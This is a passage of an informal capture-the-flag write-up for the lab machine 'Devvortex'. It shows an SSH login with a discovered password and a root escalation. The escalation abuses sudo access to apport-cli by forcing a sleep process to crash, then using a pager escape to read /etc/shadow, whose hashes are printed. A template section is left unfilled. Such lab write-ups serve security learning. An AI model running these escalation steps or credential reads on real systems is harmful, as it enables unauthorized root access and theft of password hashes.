 > logan:tequieromucho
> 

lets go to connect the ssh 

```bash
sshpass -p 'tequieromucho' /bin/ssh logan@devvortex.htb
```

## **Root Flag**

- **Location:** [Path to the root flag]
- **Method:** [Details on how you achieved root-level access]
- **Challenges Faced:** [Any difficulties or interesting findings]

enumemurate our priv

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
(ALL : ALL) /usr/bin/apport-cli
logan@devvortex:~$
```

after some search for what is the apport-cli i found this interesting commit in github

[https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb)

but the problem now is how to trigger a crash 

the idea is to create a sleep in the background and then kill it with the SIGSEGV to trigger a crash 

```bash
logan@devvortex:~$ sleep 10 &
[1] 2597
logan@devvortex:~$ killall -SIGSEGV sleep
logan@devvortex:~$ ls /var/crash/
_usr_bin_sleep.1000.crash
[1]+  Segmentation fault      (core dumped) sleep 10
logan@devvortex:~$
```

now just apply what the hero in the commit says

```bash
logan@devvortex:~$ sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash

!id
uid=0(root) gid=0(root) groups=0(root)
!cat /etc/shadow
root:$6$kdYdkbdlt4MMS7Qx$/lIiEByq.cgsQPyd82QDfhA/Qb5IgaukiUN0OOKewugqr1qeFFiQ4t2sAdiyAmUssoeg3.h1k/2BpdTRthmum.:19654:0:99999:7:::
www-data:*:18375:0:99999:7:::
logan:$6$pkg18zw/pi3z1r.f$g.zN3Yi1iLQmEcsi5S57UMl7qWgUNoo8xA3Z4TczzM1nMK5NhXgW0J.DPvS4lG9UISgGk5zsYDOpk7uPBY2Ya1:19626:0:99999:7:::
```
